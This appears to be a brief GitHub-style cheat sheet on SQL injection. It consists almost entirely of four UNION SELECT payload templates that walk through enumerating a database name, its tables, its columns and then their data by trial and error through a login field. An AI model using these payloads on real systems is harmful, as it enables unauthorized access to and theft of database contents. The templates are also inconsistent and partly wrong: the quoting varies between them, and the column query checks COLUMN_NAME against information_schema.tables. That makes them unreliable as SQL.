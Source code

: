 SQL injection, also known as SQLI, is **a common attack vector that uses malicious SQL code for backend database manipulation to access information that was not intended to be displayed.**
# Useful Commands:

To try to get the database name: 

```sql
<wrong username> ' UNION SELECT <right number of columns> where database() like 'Try 
& error';--
```

After we get the database name, we can try to get the table name:

```sql
<wrong username> UNION SELECT <right number of columns> FROM information_schema.tables WHERE table_schema = 'The name of the database we found' and table_name like 'Try 
& error';--
```

After we get the table name, we can try to get the column name:

```sql
<wrong username> UNION SELECT <right number of columns> FROM information_schema.tables WHERE table_schema = 'The name of the database we found' and table_name like 'The name of the table we found' and COLUMN_NAME like 'Try & error';-- 
```

Finally it would like this:

```sql
<wrong username> UNION SELECT <right number of columns> from 'The name of the table we found without quotations' where 'The name of the column we found without quotations' like 'Try & error';--
```